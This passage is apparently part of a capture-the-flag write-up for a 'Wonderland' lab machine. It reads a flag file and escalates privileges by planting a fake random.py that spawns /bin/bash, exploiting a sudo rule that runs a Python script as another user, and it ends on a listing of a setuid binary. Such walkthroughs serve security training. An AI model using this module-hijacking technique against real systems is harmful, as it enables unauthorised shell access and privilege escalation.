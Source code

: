 It is strange to see root.txt in the folder of alice.```find ./ -type f -iname "user.txt"``` doesn't reveal anything. The hint "Everything is upside down here." means if root.txt is here, maybe user.txt is under /root. We can directly read user.txt by running```cat /root/user.txt```. lol...

## Escalate privileges to rabbit

We see `walrus_and_the_carpenter.py` imports and calls `random` to get 10 random lines from the alice in wonderland lyrics stored in the file:

``` py
import random
[...]
for i in range(10):
    line = random.choice(poem.split("\n"))
    print("The line was:\t", line)a
```

Running `sudo -l` shows we can run `walrus_and_the_carpenter.py` as rabbit:

??? output "ssh login"
   ``` txt
    Matching Defaults entries for alice on wonderland:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User alice may run the following commands on wonderland:
        (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
   ```

To escalate privileges we can misuse the fact that we can run `walrus_and_the_carpenter.py` by creating our own `random.py` with the following content to overwrite the random function imported and called in `walrus_and_the_carpenter.py`

``` py
import os

def choice(argument):
    os.system("/bin/bash")
```

Running `walrus_and_the_carpenter.py` with our `random.py` will now give us prompt as rabbit:

``` sh
sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

## Tea Party

As rabbit we see the following files in home:

``` txt
drwxr-x--- 2 rabbit rabbit  4096 May 25  2020 .
drwxr-xr-x 6 root   root    4096 May 25  2020 ..
lrwxrwxrwx 1 root   root       9 May 25  2020 .bash_history -> /dev/null
-rw-r--r-- 1 rabbit rabbit   220 May 25  2020 .bash_logout
-rw-r--r-- 1 rabbit rabbit  3771 May 25  2020 .bashrc
-rw-r--r-- 1 rabbit rabbit   807 May 25  2020 .profile
-rwsr-sr-x 1 root   root   16816 May 25  2020 teaParty
```
